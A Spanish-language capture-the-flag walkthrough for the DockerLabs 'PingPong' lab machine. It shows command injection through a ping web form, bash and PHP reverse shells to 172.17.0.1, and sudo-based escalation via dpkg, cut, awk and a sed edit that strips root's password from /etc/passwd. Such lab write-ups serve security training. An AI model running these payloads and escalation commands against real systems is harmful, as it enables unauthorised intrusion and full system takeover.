 Máquina **PingPong** de [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Medio

![PingPong](images/pingpong/img/dockerlabs.png)

# Reconocimiento

Comenzaremos con un escaneo de `nmap`:

```css
nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Tue Dec 10 12:52:28 2024 as: nmap -sSVC -p- --open --min-rate 5000 -Pn -vvv -n -oN escaneo.txt 172.17.0.2
Warning: Hit PCRE_ERROR_MATCHLIMIT when probing for service http with the regex '^HTTP/1\.1 \d\d\d (?:[^\r\n]*\r\n(?!\r\n))*?.*\r\nServer: Virata-EmWeb/R([\d_]+)\r\nContent-Type: text/html; ?charset=UTF-8\r\nExpires: .*<title>HP (Color |)LaserJet ([\w._ -]+)&nbsp;&nbsp;&nbsp;'
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000013s latency).
Scanned at 2024-12-10 12:52:28 -03 for 17s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE  REASON         VERSION
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.58 (Ubuntu)
443/tcp  open  ssl/http syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
| ssl-cert: Subject: commonName=example.com/organizationName=Your Organization/stateOrProvinceName=California/countryName=US/organizationalUnitName=Your Unit/localityName=San Francisco
| Issuer: commonName=example.com/organizationName=Your Organization/stateOrProvinceName=California/countryName=US/organizationalUnitName=Your Unit/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-19T14:20:49
| Not valid after:  2025-05-19T14:20:49
| MD5:   9ba4:3106:4c16:47c8:dc44:cc43:9e96:b3d0
| SHA-1: 5c55:1ab3:9e32:5498:c454:8eb9:e203:a46a:8e7f:bd18
| -----BEGIN CERTIFICATE-----
| MIID4zCCAsugAwIBAgIULigYxnihUEciHsadhZIVB1bHlvowDQYJKoZIhvcNAQEL
| BQAwgYAxCzAJBgNVBAYTAlVTMRMwEQYDVQQIDApDYWxpZm9ybmlhMRYwFAYDVQQH
| DA1TYW4gRnJhbmNpc2NvMRowGAYDVQQKDBFZb3VyIE9yZ2FuaXphdGlvbjESMBAG
| A1UECwwJWW91ciBVbml0MRQwEgYDVQQDDAtleGFtcGxlLmNvbTAeFw0yNDA1MTkx
| NDIwNDlaFw0yNTA1MTkxNDIwNDlaMIGAMQswCQYDVQQGEwJVUzETMBEGA1UECAwK
| Q2FsaWZvcm5pYTEWMBQGA1UEBwwNU2FuIEZyYW5jaXNjbzEaMBgGA1UECgwRWW91
| ciBPcmdhbml6YXRpb24xEjAQBgNVBAsMCVlvdXIgVW5pdDEUMBIGA1UEAwwLZXhh
| bXBsZS5jb20wggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDEqLvUG75u
| /h+CCctOKN+mdmVrGB7kj622+bMKv1Nb0tWOkxGJfeTpmofz2F7wYP4G+mgkolsj
| e3Nhzbhuw7jzhHEXTkjaeJdVstODXfr2SO3hzGTFJNf4QAJdidzywO415C6pv/ri
| mZdwBuVTMXRkH/Blz6wInPTx6lPKrHFWmaYnvroa+FyUNFqZpxlKIp/8Ztyi8rQ3
| DOyRGvKD850XJDCtoN8bXBOjNa8aarzC5CM4SJY78WrGYzysrXSrZBQP8ztJnmCN
| gkurONPKidA9q4DbYGzDUrXP2wyPLMgvlwN7hoPDGhldwn6oHJfiMambrOqiNd02
| +4G46l6HNO8bAgMBAAGjUzBRMB0GA1UdDgQWBBRskdiM67+xLIfhKFUDsRTW2iuY
| yzAfBgNVHSMEGDAWgBRskdiM67+xLIfhKFUDsRTW2iuYyzAPBgNVHRMBAf8EBTAD
| AQH/MA0GCSqGSIb3DQEBCwUAA4IBAQAorD07Oh+lrObtJY1cRyMDUdSVzWXqc5C1
| ezcGUsBaRTkbgHNpiAE71aXW6izz+AdFuiadOtJUIZHBbQ4YhrHPGabTeobtSc2W
| 7wg8s7n/PyDVNxPjx6EyNYvANfnQNFSrX4g+Z4ovEmhZP/YiT3L4ChTaB0rkLhmK
| E9aytIGKrh0OqhYD4mZrqCfXcUHpNgRfJQhjCjGdFte4PoPT+nPgua3Hp38sUnGX
| +qrYDZI52+OO6ChEE6Miguz9ji+YdbnPZwpV2mWR2+BWjOgQ5QnSBeorXLjfnLQn
| /a9ezvNvIke18R0FR0AO9/3RX73To5+vo5Bx+fXiREKStlDvh39v
|_-----END CERTIFICATE-----
|_http-server-header: Apache/2.4.58 (Ubuntu)
| tls-alpn: 
|_  http/1.1
5000/tcp open  http     syn-ack ttl 64 Werkzeug httpd 3.0.1 (Python 3.12.3)
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
|_http-title: Ping Test
| http-methods: 
|_  Supported Methods: POST GET HEAD OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 10 12:52:45 2024 -- 1 IP address (1 host up) scanned in 17.00 seconds
```

Como vemos hay 3 puertos:

`80 & 443: Apache httpd 2.4.58`

`5000: Werkzeug httpd 3.0.1 (Python 3.12.3)`

Si revisamos los puertos 80 y 443 no encontraremos nada interesante, pero en el puerto 5000 sí, ya que nos deja ejecutar `ping` hacia la ip que digamos.

Podemos intentar ejecutar comandos de diversas maneras pero por ejemplo, si intentamos poner "--help", la web nos dirá lo siguiente:

```css
Command 'ping -c 4 --help' returned non-zero exit status 2.
```

Esto significa que la web ejecuta lo siguiente:

```css
ping -c 4 $entrada_del_usuario
```

sabiendo esto, podríamos intentar ejecutar comandos poniendo un ";", y asi ejecutar otro comando además de ping:

![comandos](images/pingpong/img/comandos.png)

Como vemos, si se ejecutan los comandos.

# Intrusión

Teniendo una ejecución de comandos, podemos enviar una shell de diversas maneras, yo usé la siguiente:

```css
asdasdasd; bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'
```

Esta nos enviará una shell por el puerto 443, por lo que previamente debemos haber estado escuchando con netcat (`sudo nc -nlvp 443`).

# Escalada de privilegios

### Freddy

Al ser una web con python, somos el usuario que la estaba ejecutando, en este caso "freddy". Luego de hacer el tratamiento de la tty, ejecuto `sudo -l` y veo que puedo ejecutar `dpkg` como el usuario "bobby", por lo que para escalar a bobby, ejecuto el siguiente comando:

```css
sudo -u bobby dpkg -i
```

este nos abrirá como un menú, escribimos `!/bin/bash` y apretamos la tecla enter.

### Bobby

Si ejecutamos `sudo -l` veremos que podemos ejecutar php como el usuario "gladys", pero en esta parte deberemos hacer una cosa, ya que si usamos el método de gtfobins, todo el terminal quedará con lag o bugeado, por lo que para poder escalar a gladys, deberemos crear un archivo en php que nos envié una shell:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/9090 0>&1'");
?>
```

como la máquina no tiene nano ni vim ni nvim, dejo este oneliner que lo crea automáticamente con los permisos correctos:

```css
echo '<?php' > /tmp/shell.php && echo "system('bash -c \"bash -i >& /dev/tcp/172.17.0.1/9090 0>&1\"');" >> /tmp/shell.php && echo '?>' >> /tmp/shell.php && chmod 777 /tmp/shell.php
```

Una vez ejecutamos lo de arriba, solo nos queda escuchar en el puerto 9090 (`nc -nlvp 9090`) y enviar la shell como gladys:

```css
sudo -u gladys php /tmp/shell.php
```

### Gladys

Como gladys, ejecuto `sudo -l` y veo que puedo ejecutar `cut` como el usuario "chocolatito", y si buscamos que archivos pertenecen a este (`find / -user chocolatito 2>/dev/null`) veremos que en "/opt/" se encuentra un txt con su contraseña, pero no podemos leerlo, pero como si podemos ejecutar `cut` como chocolatito, lo usaremos de la siguiente manera para leer el archivo:

```css
sudo -u chocolatito cut -d "" -f1 "/opt/chocolatitocontraseña.txt"
```

Una vez lo ejecutamos, obtendremos la contraseña, y escalaremos ejecutando `su chocolatito` y poniendo la contraseña obtenida.

### Chocolatito

Siendo chocolatito, podemos ejecutar `awk` como el usuario "theboss", por lo que para escalar ejecutamos lo siguiente:

```css
sudo -u theboss awk 'BEGIN {system("/bin/bash")}'
```

### TheBoss

Como theboss, podemos ejecutar `sed` como root, por lo que para escalar a root, debemos modificar el passwd y hacer que al ejecutar `su` nos haga root sin necesidad de contraseña. Para esto debemos ejecutar lo siguiente:

```css
sudo sed -i 's/root:x:/root::/g' /etc/passwd
```

Ejecutamos `su` y ya seremos root.

## Root

![root](images/pingpong/img/root.png)

Gracias por leer :)